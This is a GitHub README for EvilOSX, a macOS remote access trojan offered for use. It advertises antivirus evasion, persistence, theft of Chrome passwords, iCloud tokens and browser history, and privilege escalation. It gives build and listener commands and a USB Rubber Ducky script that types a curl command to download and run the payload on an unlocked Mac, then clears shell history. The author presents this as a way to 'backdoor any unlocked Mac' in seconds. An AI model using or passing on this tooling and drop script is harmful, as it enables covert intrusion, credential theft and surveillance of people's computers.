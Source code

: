 <h1 align="center">
  <br>
  <a href="https://github.com/Marten4n6/EvilOSX"><img src="https://i.imgur.com/qiAJP95.png" alt="EvilOSX" width="250"></a>
  <br>
  EvilOSX
  <br>
</h1>

<h4 align="center">A pure python, post-exploitation, RAT (Remote Administration Tool) for macOS / OSX.</h4>

<p align="center">
  <a href="https://github.com/Marten4n6/EvilOSX/blob/master/LICENSE.txt">
      <img src="https://img.shields.io/badge/license-GPLv3-blue.svg">
  </a>
  <a href="https://github.com/Marten4n6/EvilOSX/issues">
    <img src="https://img.shields.io/github/issues/Marten4n6/EvilOSX.svg">
  </a>
  <a href="https://github.com/Marten4n6/EvilOSX/pulls">
      <img src="https://img.shields.io/badge/contributions-welcome-orange.svg">
  </a>
</p>

---

## Features

- Emulate a simple terminal instance
- Undetected by anti-virus (randomized hash, [HTTPS](https://en.wikipedia.org/wiki/HTTPS) communication)
- Multi-threaded
- No client dependencies (pure python)
- Persistent
- Simple extendable [module](https://github.com/Marten4n6/EvilOSX/blob/master/modules/template.py) system
- Retrieve Chrome passwords
- Retrieve iCloud tokens and contacts
- Download and upload files
- iTunes iOS backup enumeration
- Retrieve browser history (Chrome and Safari)
- Attempt to get root via local privilege escalation
- Auto installer, simply run EvilOSX on your target and the rest is handled automatically

## How To Use
```bash
# Install urwid (required for the server GUI)
$ sudo pip install urwid

# Clone or download this repository
$ git clone https://github.com/Marten4n6/EvilOSX

# Go into the repository
$ cd EvilOSX

# Build EvilOSX which runs on your target
$ python builder.py

# Start listening for connections
$ python server/server.py

# Lastly, run the built EvilOSX on your target.
```
![](https://i.imgur.com/u2FYrUu.png)

## Motivation

This project was created to be used with my [Rubber Ducky](https://hakshop.com/products/usb-rubber-ducky-deluxe), here's the simple script:
```
REM Download and execute EvilOSX @ https://github.com/Marten4n6/EvilOSX
REM Also see https://ducktoolkit.com/vidpid/

DELAY 1000
GUI SPACE
DELAY 500
STRING Termina
DELAY 1000
ENTER
DELAY 1500

REM Kill all terminals after x seconds
STRING screen -dm bash -c 'sleep 6; killall Terminal'
ENTER

STRING cd /tmp; curl -s HOST_TO_EVILOSX.py -o 1337.py; python 1337.py; history -cw; clear
ENTER
```
- Takes about 10 seconds to backdoor any unlocked Mac, which is...... *nice*
- Termina**l** is spelt that way intentionally, on some systems spotlight won't find the terminal otherwise. <br/>
- To bypass the keyboard setup assistant make sure you change the VID&PID which can be found [here](https://ducktoolkit.com/vidpid/). Aluminum Keyboard (ISO) is probably the one you are looking for.

## Versioning

EvilOSX will be maintained under the Semantic Versioning guidelines as much as possible. <br/>
Server and client releases will be numbered with the follow format:
```
<major>.<minor>.<patch>
```

And constructed with the following guidelines:
- Breaking backward compatibility bumps the major
- New additions without breaking backward compatibility bumps the minor
- Bug fixes and misc changes bump the patch

For more information on SemVer, please visit https://semver.org/.

## Issues

Feel free to submit any issues or feature requests.

## Credits

- The awesome [Empire](https://github.com/EmpireProject) project
- [manwhoami](https://github.com/manwhoami) for his projects: [OSXChromeDecrypt](https://github.com/manwhoami/OSXChromeDecrypt), [MMeTokenDecrypt](https://github.com/manwhoami/MMeTokenDecrypt), [iCloudContacts](https://github.com/manwhoami/iCloudContacts)
- The slowloris module is pretty much copied from [PySlowLoris](https://github.com/ProjectMayhem/PySlowLoris)
- [urwid](http://urwid.org/) and [this code](https://github.com/izderadicka/xmpp-tester/blob/master/commander.py) which saved me a lot of time with the GUI
- Logo created by [motusora](https://www.behance.net/motusora)

## License

[GPLv3](https://github.com/Marten4n6/EvilOSX/blob/master/LICENSE.txt)